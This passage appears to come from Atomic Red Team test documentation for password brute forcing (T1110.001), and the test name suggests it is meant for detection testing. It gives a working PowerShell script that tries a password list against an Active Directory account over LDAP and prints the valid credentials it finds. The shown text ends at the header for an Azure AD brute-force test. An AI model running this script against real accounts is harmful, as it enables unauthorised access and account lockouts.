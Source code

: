 #### Inputs:

| Name           | Description                                                   | Type   | Default Value                                               |
| -------------- | ------------------------------------------------------------- | ------ | ----------------------------------------------------------- |
| user           | Account to bruteforce                                         | string | $ENV:USERNAME                                               |
| passwords_path | List of passwords we will attempt to brute force with         | path   | PathToAtomicsFolder&#92;T1110.001&#92;src&#92;passwords.txt |
| domain         | Active Directory domain FQDN                                  | string | $env:UserDnsDomain                                          |
| auth           | authentication method to choose between "NTLM" and "Kerberos" | string | NTLM                                                        |

#### Attack Commands: Run with `powershell`!

```powershell
if ("#{auth}".ToLower() -NotIn @("ntlm","kerberos")) {
  Write-Host "Only 'NTLM' and 'Kerberos' auth methods are supported"
  exit 1
}

[System.Reflection.Assembly]::LoadWithPartialName("System.DirectoryServices.Protocols") | Out-Null
$di = new-object System.DirectoryServices.Protocols.LdapDirectoryIdentifier("#{domain}",389)

$passwordList = Get-Content -Path "#{passwords_path}"
foreach ($password in $passwordList){
  $credz = new-object System.Net.NetworkCredential("#{user}", $password, "#{domain}")
  $conn = new-object System.DirectoryServices.Protocols.LdapConnection($di, $credz, [System.DirectoryServices.Protocols.AuthType]::#{auth})
  try {
    Write-Host " [-] Attempting ${password} on account #{user}."
    $conn.bind()
    # if credentials aren't correct, it will break just above and goes into catch block, so if we're here we can display success
    Write-Host " [!] #{user}:${password} are valid credentials!"
  } catch {
    Write-Host $_.Exception.Message
  }
}
Write-Host "End of bruteforce"
```

<br/>
<br/>

## Atomic Test #3 - Brute Force Credentials of single Azure AD user

Attempt to brute force Azure AD user via AzureAD powershell module.

**Supported Platforms:** Azure-ad

**auto_generated_guid:** 5a51ef57-299e-4d62-8e11-2d440df55e69

#### Inputs:
